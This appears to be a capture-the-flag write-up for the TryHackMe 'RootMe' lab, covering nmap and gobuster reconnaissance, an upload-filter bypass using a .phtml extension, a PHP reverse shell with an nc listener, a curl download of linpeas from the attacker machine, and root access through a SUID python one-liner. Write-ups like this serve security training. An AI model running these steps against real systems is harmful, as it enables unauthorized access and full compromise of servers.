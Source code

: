 # [RootMe - A ctf for beginners, can you root me?](https://tryhackme.com/r/room/rrootme)

## Reconnaissance

### Nmap
Starting off by scanning with nmap, we will get some insights about open ports on the target, as well as information about the software running on these ports.
```sh
nmap -sC -sV <IP> -Pn
```
Essentially, we get two important information
- two open ports, 22 (ssh) and 80 (http)
- version information -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3, Apache httpd 2.4.29 ((Ubuntu))

Since we most likely will mainly deal with the HTTP-server, I wanted to verify the version of Apache we got back from the nmap scan. To do that, we can use a tool like `curl` for banner grabbing.
In my case, I used curl.
```sh
curl -I <IP>
```
curls output is: `Server: Apache/2.4.29 (Ubuntu)`
So far so good!

### Gobuster
Next up, I went to do a directory enumeration scan for hidden and interesting directories we may use for unauthorized access and exploitation.
```sh
gobuster dir -u <IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
As a result, we get two interesting directories, `/panel/` and `/upload/`.

![gobuster](images/gobuster.png)

## Getting a shell
To get a quick overview what we have to deal with, I simply visited `<IP>/panel/` and `<IP>/upload/`.
- `<IP>/upload/` seems to list our uploaded files, meaning we can easily execute code
- `<IP>/panel/` gives us the ability to upload files to the web-server

As a consequence, I tried to upload a `.php` script to see if it is going through, because that would allow us to easily create a reverse shell. It seems like there is a filename-check denying *.php files from getting uploaded.

![uploaddenied](images/php.png)

After changing the name to `.phtml`, the file went through!

![uploadaccepted](images/phtml.png)

Code-wise, I used the [php-reverse-shell template within kali linux](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads).

Now we just need to set up a listener on our attacker system and we have to execute the uploaded script on the victims web-server.
Listener on the attackers system:
```sh
nc -lvnp 9001
```
To execute the uploaded script, we just need to visit `<IP>/uploads` again.

![upload](images/upload.png)

We end up getting a reverse shell.
After transforming it into a tty with
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```
all we have to do to get the user flag is 
```sh
cd ~
cat user.txt
```
Output: THM{XXX_XXX_X_XXXXX}

## Privilege escalation
Before even manually searching, I just got [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the web-server. Linpeas is a script that searches for possible privilege escalation paths.
To get it on the web-server, I downloaded the linpeas.sh locally, set up a python http-server on the attacker machine `python3 -m http.server 8000` and grabbed the file with curl from our shell(`curl <MY-IP>:8000/linenum.sh -o linenum.sh`).
After executing, `/usr/bin/python` looks really promising due to the SUID bit set and we can use it to gain root access.

![linpeas](images/linpeas.png)

A quick research on GTFOBins brings me to [this](https://gtfobins.github.io/gtfobins/python/), which should do the job (the SUID section). We just need to execute
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and we end up successfully utilizing this vulnerability to gain root access.
To get the flag, we just have to
```sh
cd /root
cat root.txt
```
Output: THM{XXXXXXXXX_XXXXXXXXXX}


        
